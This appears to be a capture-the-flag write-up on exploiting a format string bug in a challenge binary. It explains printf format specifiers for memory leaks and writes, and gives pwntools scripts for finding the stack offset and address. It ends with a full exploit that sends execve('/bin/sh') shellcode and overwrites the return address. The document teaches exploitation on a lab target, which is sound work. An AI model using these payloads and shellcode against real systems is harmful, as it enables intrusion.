







Here is an interaction with the challenge:



From the source code, we can see that there is a `format string` vulnerability when prompting for our name.   
What is a format string vulnerability ?  

A format string vulnerability happens when a program uses user input directly as the format argument in functions like `printf`, `fprintf`, or `sprintf`.

Example of vulnerable code:
```c
printf(user_input);
```

Instead of treating the input as plain text, the function interprets format specifiers (like %p).

Common format specifiers used in exploitation:

%p   -> prints a pointer (useful for leaking addresses)  
%x   -> prints data in hexadecimal (stack dumping)  
%s   -> treats value as a pointer and reads memory (arbitrary read)  
%n   -> writes the number of printed bytes to an address (arbitrary write)  

Impact:
- Information leak (reading memory)
- Arbitrary memory read
- Arbitrary memory write (with %n)
- Can lead to full code execution

Examples:

1. Stack leak:  
Input: "%p %p %p %p"  
Output: leaks stack values

2. Finding offset:  
Input: "AAAA %p %p %p"  
Look for 0x41414141 in output  

3. Arbitrary read:  
Input: "%7$s" + address  
Reads memory at given address  

4. Arbitrary write:  
Input: "%1234x%10$n"  
Writes 1234 to the address at position 10 on the stack  

5. Precise write (byte-wise):  
Use %hhn, %hn, %n to control write size  

Summary:  
Format string vulnerabilities allow attackers to read and write memory by abusing printf-style functions when input is not properly sanitized.

Let's break down the exploitation step 

#### 1. Find the `OFFSET` our name variable is at.

In the example provided earlier there is this 
```
Input: "AAAA %p %p %p"
Look for 0x41414141 in output 
```

We will use this input to find the offset of the name variable on the stack.  
I will use a script to do it.  
```python
from pwn import *

HOST = "chal.sigpwny.com"
PORT = 1348

for i in range(1, 31):
	conn = remote(HOST, PORT)	
	try:
		conn.recvuntil(b'> ')		
		conn.sendline(f"AAAAAAAA%{i}$p".encode())		
		out = conn.recvline()		
		log.info(f"[{i}] {out}")		
		if b'0x4141414141414141' in out:
			log.success(f"Offset found: {i}")		
			exit(0)		
		conn.close()	
	except EOFError:	
		log.warning(f"EOF at offset {i}")
```

So this script will iterate from value 1 to 31 and will send them:

```
AAAAAAAA%1$p
AAAAAAAA%2$p
AAAAAAAA%3$p
............
............
AAAAAAAA%30$p
```

If the result display by the program is 
```
AAAAAAAA0x4141414141414141
```

That means we found the start offset of name



The name variable start at the `6` offset on the stack.  
Note: Here this information will not be use, but it is always useful to know where the variable address you have control over is on the stack.

#### 2. Calculate the address of name
With the help of `gdb/pwndbg` you need to find a leaked memory address who will always at the same distance of name so you can calculate his address.  
With a lot of trial and errors I found that if you subtract `0x20` form the address leaked with `%9$p` you get the info address.  
I will show case how I found it with pwndbg

```python
from pwn import *

FILE = "./challenge"
GDBSCRIPT = '''
	source /opt/tools/gdb/pwndbg/gdbinit.py
	b *vuln+178
	c
'''

conn = gdb.debug(FILE, gdbscript=GDBSCRIPT)
payload = b"%9$p"
conn.sendlineafter(b"> ", payload)
output = conn.recvline()
log.info(output.decode())
conn.sendlineafter(b"> ", b"yo")
conn.interactive()
``` 

This script will send `%9$p` after the first prompt and `yo` after the second prompt. It will the stop at `vuln+178` and open gdb/pwndbg for us so we can analyze the program.  
It will open like this:



On the top panel we can see that we have the address leaked by `%9$p`

On the bottom panel, on the stack part we can see that the address of the info variable (where we send "yo") is `0x7ffe40631700` in this example. 



Let's see the difference between the two



It's `0x20` in hex. This difference will be the same for every instance of the program. So to find the info address we just have to do:

```python
info_address = leaked_address - 0x20
```

#### 3. Create our final payload
In this challenge the stack is also executable.  
Here is the final exploit!

```python
from pwn import *

def leak_hex_int(output):
	#Extract all hex values (0x...) from output and return them as a list of ints.
	import re
	matches = re.findall(rb'0x[0-9a-fA-F]+', output)
	return [int(m, 16) for m in matches]

HOST = "chal.sigpwny.com"
PORT = 1348

# Remote connection
conn = remote(HOST, PORT)

# payload to leak the address
payload = b"%9$p"

# Send the payload after we encounter "> " to leak the address
conn.sendlineafter(b"> ", payload)

# Get the response
output = conn.recvline()

# Extract the leaked address
leaked_addr = leak_hex_int(output)

# Convert in integer
leaked_addr_hex = int(leaked_addr[0])

# Display the leaked address in hex
log.info(f"leaked address: {hex(leaked_addr_hex)}")

# Calculate the address of info variable
info_addr = leaked_addr_hex - 0x20

# Display the info variable in hex
log.info(f"info address = {hex(info_addr)}")

# info is 32 bytes and the shellcode 23 bytes so we need to fill the remaining 9 bytes with "\x00"
# Overwrite the RBP with 8 bytes
# And write the info_addr value into the return value
payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload += b"\x00"*9
payload += b"B"*8
payload += p64(info_addr)

conn.sendlineafter(b"> ", payload)
conn.interactive()
``` 




